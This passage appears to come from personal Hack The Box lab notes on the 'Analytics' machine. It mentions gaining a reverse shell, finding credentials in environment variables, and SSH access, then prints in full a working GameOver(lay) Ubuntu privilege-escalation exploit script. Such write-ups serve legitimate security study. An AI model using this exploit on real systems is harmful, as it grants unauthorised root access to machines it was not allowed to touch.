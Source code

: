 ![[Untitled 106 2.png|Untitled 106 2.png]]

TOKEN PoC

Now Ill use the script from [[Machines HTB]] to gain a reverse shell

![[Untitled 107 2.png|Untitled 107 2.png]]

And we have access

![[Untitled 108 2.png|Untitled 108 2.png]]

![[Untitled 109 2.png|Untitled 109 2.png]]

Enumerating the environment variables using `env` I found

![[Untitled 110 2.png|Untitled 110 2.png]]

So since I cannot use ssh within the shell, Ill try SSH

![[Untitled 111 2.png|Untitled 111 2.png]]

Once we are in using `uname -a` I searched in google for the kernel version to find a vulnerability

> [!info]  
>  
> [https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh)  

```Bash
metalytics@analytics:~$ cd ../../tmp
metalytics@analytics:/tmp$ nano exploit.sh
metalytics@analytics:/tmp$ cat exploit.sh 
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
metalytics@analytics:/tmp$ chmod +x exploit.sh 
```

![[Untitled 112 2.png|Untitled 112 2.png]]

### Codify ✅

Some scans to see what we have
